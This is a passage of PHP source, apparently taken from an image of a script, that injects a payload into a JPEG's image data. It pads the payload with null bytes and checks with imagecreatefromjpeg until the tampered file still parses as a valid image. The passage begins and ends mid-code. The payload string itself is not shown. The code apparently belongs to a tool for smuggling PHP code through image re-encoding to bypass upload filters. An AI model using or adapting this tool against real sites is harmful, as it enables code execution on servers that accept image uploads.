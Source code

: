 ```php
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream =
                        substr($outStream, 0, $startPos) .
                        $miniPayload .
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');
    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }
    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }
    class DataInputStream {
        private $binData;
        private $order;
        private $size;
        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }
        public function seek() {
            return ($this->size - strlen($this->binData));
        }
```
